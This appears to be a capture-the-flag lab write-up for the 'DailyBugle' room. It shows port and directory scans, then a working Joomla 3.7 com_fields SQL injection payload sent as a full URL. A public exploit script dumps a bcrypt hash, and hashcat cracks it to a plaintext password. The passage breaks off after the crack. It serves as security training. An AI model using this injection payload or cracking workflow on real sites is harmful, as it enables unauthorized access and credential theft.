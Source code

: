 # DailyBugle

Compromise a Joomla CMS account via SQLi, practice cracking hashes and escalate your privileges by taking advantage of yum.

# Recon

```
❯ sudo rustscan -a 10.10.212.208 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.212.208
Host is up, received user-set (0.080s latency).
Scanned at 2021-10-08 15:54:20 EDT for 51s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-methods:
|_  Supported Methods: OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   syn-ack ttl 61 MariaDB (unauthorized)
```

Starting with the web page, standard scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.212.208 | tee whatweb.log
# Summary   : PHP[5.6.40], HttpOnly[eaa83fe8b963ab08ce9ab7d4a798de05], Script[application/json], Apache[2.4.6], X-Powered-By[PHP/5.6.40], Bootstrap, HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.6.40], PasswordField[password], JQuery, MetaGenerator[Joomla! - Open Source Content Management], Cookies[eaa83fe8b963ab08ce9ab7d4a798de05]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.212.208
http://10.10.212.208/bin                  (Status: 200) [Size: 31]
http://10.10.212.208/cache                (Status: 200) [Size: 31]
http://10.10.212.208/cgi-bin/             (Status: 403) [Size: 210]
http://10.10.212.208/components           (Status: 200) [Size: 31]
http://10.10.212.208/configuration.php    (Status: 200) [Size: 0]
http://10.10.212.208/images               (Status: 200) [Size: 31]
http://10.10.212.208/includes             (Status: 200) [Size: 31]
http://10.10.212.208/layouts              (Status: 200) [Size: 31]
http://10.10.212.208/language             (Status: 200) [Size: 31]
http://10.10.212.208/LICENSE.txt          (Status: 200) [Size: 18092]
http://10.10.212.208/libraries            (Status: 200) [Size: 31]
http://10.10.212.208/media                (Status: 200) [Size: 31]
http://10.10.212.208/modules              (Status: 200) [Size: 31]
http://10.10.212.208/plugins              (Status: 200) [Size: 31]
http://10.10.212.208/README.txt           (Status: 200) [Size: 4494]
http://10.10.212.208/robots.txt           (Status: 200) [Size: 836]
http://10.10.212.208/templates            (Status: 200) [Size: 31]
http://10.10.212.208/tmp                  (Status: 200) [Size: 31]
http://10.10.212.208/web.config.txt       (Status: 200) [Size: 1690]
```

Browsing to main page:

![web-main](img/web-main.png)![]()

Checking out `README.txt` we see a partial version number for Joomla (3.7):

![](img/web-readme.png)

:exclamation: :exclamation:

NOTE: after looking at a writeup later, I found you can get the exact version of Joomla by visiting the following URL:

- http://host-ip/administrator/manifests/files/joomla.xml

![](img/joomla-version.png)

Poking around under the `/administrator` path would have yielded these results eventually.

At `/administrator` there is a Joomla admin panel login:

![](img/joomla-login.png)

And at the next level (`/administrator/manfiests`), there is an index-of page to browse the directory tree:

![](img/indexof-admin-manifest.png)

:exclamation: :exclamation:

Checking out searchsploit for `joomla 3.7`:

![](img/ss-joomla.png)

Looks like there might be SQL injection vulnerabilities?

Starting with first result:

- https://www.exploit-db.com/exploits/44227

It is a php script, which has this interesting part:

```php
$inject=$target.'/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=';

$payload='1,extractvalue(0x0a,concat(0x0a,(select/**/concat(0x7e7e7e,hex(table_name),0x7e7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=1';
$final_url=$inject.$payload;
```

So maybe some injection in the `com_fields` option. This lines up with the title of the 2nd searchsploit result.

- https://www.exploit-db.com/exploits/42033

This one highlights the same vulnerable URL: `/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

It also gives 3 methods of exploiting

- boolean-based blind
- error-based
- time-based blind

Browsing to the following URL (from exploit 44227):

- `http://10.10.212.208/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1,extractvalue(0x0a,concat(0x0a,(select/**/concat(0x7e7e7e,hex(table_name),0x7e7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))=1`

![](img/web-sqli-test.png)

This yields the hex string "6662396A355F617373657473", which decodes to "fb9j5_assets".

Definitely vulnerable!

# Exploit

Googling for `joomla 3.7 exploit` turns up a python script that might help:

- https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

Testing it out.

![](img/exploit-script-run.png)

The script works like a charm. Got super user `jonah` with a password hash!

Looking at hashcat example hashes (https://hashcat.net/wiki/doku.php?id=example_hashes), it seems this fits the format of `bcrypt` (`$2*$`), mode 3200. Plugging into hashcat:

```sh
❯ hashcat -O -a0 -w3 --quiet -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /mnt/vm-share/rockyou.txt
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123
# this took over 25 mins to crack on my kali VM
```

So jonah's password is `spiderman123`!

